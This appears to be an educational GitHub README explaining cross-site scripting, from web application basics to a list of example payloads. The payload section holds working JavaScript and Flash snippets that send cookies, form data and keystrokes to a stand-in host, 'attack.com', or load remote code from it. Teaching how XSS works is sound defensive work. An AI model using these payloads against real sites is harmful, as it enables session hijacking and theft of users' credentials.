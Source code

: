 <p align="center"><img align="center" width="500" height="500" src="./assets/Cross-site-scripting.gif"/></p>

# Cross-site Scripting
Before we start talking about Cross-site-scripting, I'd like to say that this repository is for educational purposes only, so that you can understand how this vulnerability works and how to avoid future problems with XSS.
### Web application
Basically, a web application is a piece of software that runs in a web browser, such as Chrome, Firefox etc. Why understand what a web application is? precisely because Cross-site-scripting (XSS) is caused by flaws in web applications themselves. Like Facebook, Olx etc. 

<code> You can learn more about web application here: https://aws.amazon.com/what-is/web-application/ </code>
### Vulnerability
Vulnerability is precisely a weakness in a web application that is exploited through bugs or the structure of the web application itself, if it has flaws, and it is in these flaws that people with malicious intentions can gain access to sensitive and important data.

<code>You can learn more about vulnerabilities here: https://owasp.org/www-community/vulnerabilities/.</code>
#### XSS
XSS is an injection attack frequently based on JavaScript, but it can also include HTML or any type of code that our browser can execute. They inject into a web application with the focus of being executed by other users. In this way, it can send malicious code to other people who may mistakenly click on a script that captures sensitive or important information. 


### Payloads
Payloads are basically Javascript codes that we can execute on target users' computers.

Examples of payloads with **JavaScript**:

```javascript
Basic Alert Payload:
<script>alert('XSS')</script>


Redirection Payload:
<script>
    window.location.href='http://attack.com'
</script>


Form Data Capture Payload:
<script>
    document.location='http://attack.com/logger.php?data=' +    
    document.getElementById('form_id').value 
</script>

Keylogger Payload:
<script>
    document.onkeypress=function(e){
        fetch('http://www.attack.com/logger.php?k=' + e.key);
    }
</script>

AJAX Command Execution Payload:
<script>
    fetch("http://www.attack.com/log.php?data="+
    document.cookie);
</script>

```

Examples of payloads with **Flash**:
```javascript

Javascript Execution Payload:
<object data='http://www.attack.com/flash.swf'></object>

Redirection Payload (inside a .swf file):
getURL("javascript:window.location.href='http://attack.com'");

Remote Code Execution Payload (inside a .swf file):
load('http://www.attack.com/exploit.js');

```
